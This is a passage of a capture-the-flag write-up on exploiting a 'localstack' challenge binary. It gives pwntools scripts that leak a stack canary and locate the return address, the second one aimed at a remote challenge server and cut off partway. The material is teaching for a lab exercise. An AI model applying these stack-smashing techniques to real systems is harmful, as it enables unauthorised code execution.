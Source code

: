 The exact position of the canary value may be different. You can change variable
`n = 29` and do trial and error until you found the canary value.

Now we know the canary value, we then check how many value can we push to the
`stack` until it hits the canary check. After some trial and error we got the
value of `n = 30`.

```python
from pwn import *

chall = "./localstack"

p = process(chall)

p.recvline().decode()

n = 30
for i in range(n):
    payload = f"push {i}"
    p.recvuntil(b">> ")
    p.sendline(payload.encode())
    p.recvline()

p.recvuntil(b">> ")
p.sendline(b"exit")

p.interactive()
```

![stack smash](./img/local/local4.png "stack smashing detected")

We got hit by stack smashing error, it means the 30th value of `stack` is the
canary.

Next we need to find the distance between the canary to return address in the
stack. After some trial and error, we found that there is one stack distance
between the canary and the target address. Also we make sure that the position
of the canary on the remote server using the same way above. And here is our
final code.

```python
from pwn import *

chall = "./localstack"

# p = process(chall)
p = remote("172.31.1.2", 11100)

known_addr = 0x149f
known_target = 0x1289

p.recvline().decode()

vals = []

# Find the relative address and canary value
# n = 29
n = 31
for i in range(n):
    p.recvuntil(b">> ")
    p.sendline(b"pop")
    r = p.recvline().decode().strip().split()
```